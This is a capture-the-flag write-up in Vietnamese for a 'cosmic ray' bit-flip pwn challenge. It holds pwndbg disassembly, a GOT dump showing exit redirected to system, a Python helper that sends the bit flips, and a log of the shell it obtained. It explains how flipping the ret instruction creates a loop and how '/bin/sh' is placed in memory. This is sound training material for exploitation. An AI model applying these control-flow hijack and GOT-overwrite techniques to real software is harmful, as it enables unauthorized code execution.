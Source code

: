 # write up cosmic
- với bài này sẽ lật bit ở bất kỳ dữ liệu nào của các địa chỉ trong vùng nhớ xong từ đó ghi lại vào memory map
- vì thế ta có thể lật bit của intruction ở return sao cho nó không return về chỗ mà chương trình bình thường return 
```assembly
pwndbg> x/10xi 0x00000000004015aa
   0x4015aa <cosmic_ray+476>:	ret
   0x4015ab <main>:	endbr64
   0x4015af <main+4>:	push   rbp
   0x4015b0 <main+5>:	mov    rbp,rsp
=> 0x4015b3 <main+8>:	mov    rax,QWORD PTR [rip+0x2a66]        # 0x404020 <stdout@GLIBC_2.2.5>
   0x4015ba <main+15>:	mov    esi,0x0
   0x4015bf <main+20>:	mov    rdi,rax
   0x4015c2 <main+23>:	call   0x401110 <setbuf@plt>
   0x4015c7 <main+28>:	mov    rax,QWORD PTR [rip+0x2a72]        # 0x404040 <stderr@GLIBC_2.2.5>
   0x4015ce <main+35>:	mov    esi,0x0
pwndbg> 
```
- vì bài có hàm cosmic_ray nằm trên hàm main trong vùng nhớ nên ta có thể ghi return sao cho nó không run return, vì thế nó sẽ tiến thẳng tới main
- vì bài chỉ lật được 1 lần duy nhất với 1 vị trí nên phải tìm đúng chỗ 
```assembly
pwndbg> x/10xi 0x00000000004015aa
=> 0x4015aa <cosmic_ray+476>:	shl    ebx,cl
   0x4015ac <main+1>:	nop    edx
   0x4015af <main+4>:	push   rbp
```
- sau khi lật xong thì chương trình quay về main và tiến vào cosmic_ray thành 1 vòng lặp vô hạn có thể lật bất kỳ chỗ nào
- sau đó có thể ghi vào got exit để chương trình thành system 
- vì offset giống nhau nên vị trí lật các bit cũng giống nhau luôn 
- đã test nhiều lần trên aslr và tính đúng cho quy luật này vẫn đảm bảo ✔️
 ```c
[0x403fe0] __isoc99_scanf@GLIBC_2.7 -> 0x7f7f36862090 (__isoc99_scanf) ◂— endbr64 
[0x403fe8] exit@GLIBC_2.2.5 -> 0x7f7f36850d70 (system) ◂— endbr64 
[0x403ff0] __libc_start_main@GLIBC_2.34 -> 0x7f7f36829dc0 (__libc_start_main) ◂— endbr64 
[0x403ff8] __gmon_start__ -> 0
```
- tiếp theo là cần có chuỗi /bin/sh\0
- vì instruction ở trên hàm exit trong hàm cosmic ray chỉ có thể chứa được 4bytes để mov sang edi, nên tiếp theo cần ghi chuỗi kia vào vùng nhớ có địa chỉ chỉ có kích thước 4bytes
```assembly
   0x0000000000401523 <+341>:	mov    edi,0x1
   0x0000000000401528 <+346>:	call   0x401180 <exit@plt>
```
- em viết 1 quả hàm để overwrite đễ hơn bằng cách so từng bit 
- num1 là instruction ban đầu
- num2 là instruction lúc sau khi thay đổi
```c
def change(num1,num2,addr):
    listchange = []
    for i in range(8):
        byte1 = num1 >> (i*8) & 0xff
        byte2 = num2 >> (i*8) & 0xff
        binstr1 = bin(byte1)[2:].zfill(8)
        binstr2 = bin(byte2)[2:].zfill(8)
        for j in range(8):
            if(binstr1[j] != binstr2[j]):
                listchange.append(j)
                sla(b"through:",hex(addr+i).encode())
                sla(b"to flip:",str(j).encode())   
    return listchange
```
- chạy script lấy shell
```assembly
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x9e bytes:
    b'__pycache__  cosmic-ray-v3.zip\tcosmicrayv3e\t   libc-2.35.so\n'
    b'a.py\t     cosmicray.md\tcosmicrayv3e.bndb  libc.so.6\n'
    b'break\t     cosmicrayv3\tld-2.35.so\t   solve.py\n'
__pycache__  cosmic-ray-v3.zip    cosmicrayv3e       libc-2.35.so
a.py         cosmicray.md    cosmicrayv3e.bndb  libc.so.6
break         cosmicrayv3    ld-2.35.so       solve.py
$  
```

